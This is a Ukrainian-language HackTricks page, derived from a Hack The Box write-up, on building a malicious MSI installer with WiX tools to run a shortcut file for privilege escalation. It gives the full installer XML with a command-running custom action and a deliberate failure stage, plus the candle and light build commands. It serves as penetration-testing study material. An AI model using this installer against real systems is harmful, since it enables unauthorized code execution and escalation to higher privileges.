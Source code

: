 <details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Інші способи підтримки HackTricks:

* Якщо ви хочете побачити **рекламу вашої компанії на HackTricks** або **завантажити HackTricks у PDF** Перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний PEASS & HackTricks мерч**](https://peass.creator-spring.com)
* Відкрийте для себе [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Поділіться своїми хакерськими трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв.

</details>

# Створення шкідливого MSI та отримання Root

Створення установника MSI буде виконано за допомогою wixtools, зокрема буде використано [wixtools](http://wixtoolset.org). Варто зазначити, що були спроби використання альтернативних засобів створення MSI, але вони не були успішними у цьому конкретному випадку.

Для більш глибокого розуміння прикладів використання wix MSI, рекомендується звернутися до [цієї сторінки](https://www.codeproject.com/Tips/105638/A-quick-introduction-Create-an-MSI-installer-with). Тут ви знайдете різноманітні приклади, які демонструють використання wix MSI.

Мета полягає в створенні MSI, який виконає файл lnk. Для досягнення цієї мети можна використовувати наступний XML-код ([xml звідси](https://0xrick.github.io/hack-the-box/ethereal/#Creating-Malicious-msi-and-getting-root)):
```markup
<?xml version="1.0"?>
<Wix xmlns="http://schemas.microsoft.com/wix/2006/wi">
<Product Id="*" UpgradeCode="12345678-1234-1234-1234-111111111111" Name="Example Product Name"
Version="0.0.1" Manufacturer="@_xpn_" Language="1033">
<Package InstallerVersion="200" Compressed="yes" Comments="Windows Installer Package"/>
<Media Id="1" Cabinet="product.cab" EmbedCab="yes"/>
<Directory Id="TARGETDIR" Name="SourceDir">
<Directory Id="ProgramFilesFolder">
<Directory Id="INSTALLLOCATION" Name="Example">
<Component Id="ApplicationFiles" Guid="12345678-1234-1234-1234-222222222222">
</Component>
</Directory>
</Directory>
</Directory>
<Feature Id="DefaultFeature" Level="1">
<ComponentRef Id="ApplicationFiles"/>
</Feature>
<Property Id="cmdline">cmd.exe /C "c:\users\public\desktop\shortcuts\rick.lnk"</Property>
<CustomAction Id="Stage1" Execute="deferred" Directory="TARGETDIR" ExeCommand='[cmdline]' Return="ignore"
Impersonate="yes"/>
<CustomAction Id="Stage2" Execute="deferred" Script="vbscript" Return="check">
fail_here
</CustomAction>
<InstallExecuteSequence>
<Custom Action="Stage1" After="InstallInitialize"></Custom>
<Custom Action="Stage2" Before="InstallFiles"></Custom>
</InstallExecuteSequence>
</Product>
</Wix>
```
Важливо зауважити, що елемент Package містить атрибути, такі як InstallerVersion та Compressed, які вказують версію інсталятора та показують, чи упакований пакет, відповідно.

Процес створення включає використання candle.exe, інструменту з wixtools, для генерації wixobject з msi.xml. Слід виконати наступну команду:
```
candle.exe -out C:\tem\wix C:\tmp\Ethereal\msi.xml
```
Крім того, варто зазначити, що в пості наведено зображення, яке показує команду та її вивід. Ви можете звертатися до нього для візуального керівництва.

Крім того, light.exe, ще один інструмент з wixtools, буде використаний для створення файлу MSI з wixobject. Команда, яку слід виконати, наведена нижче:
```
light.exe -out C:\tm\Ethereal\rick.msi C:\tmp\wix
```
## Посилання
* [https://0xrick.github.io/hack-the-box/ethereal/#Creating-Malicious-msi-and-getting-root](https://0xrick.github.io/hack-the-box/ethereal/#Creating-Malicious-msi-and-getting-root)
* [https://www.codeproject.com/Tips/105638/A-quick-introduction-Create-an-MSI-installer-with](https://www.codeproject.com/Tips/105638/A-quick-introduction-Create-an-MSI-installer-with)
[wixtools](http://wixtoolset.org)


<details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Інші способи підтримки HackTricks:

* Якщо ви хочете побачити вашу **компанію рекламовану на HackTricks** або **завантажити HackTricks у форматі PDF**, перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний PEASS & HackTricks мерч**](https://peass.creator-spring.com)
* Відкрийте для себе [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Поділіться своїми хакерськими трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв.

</details>
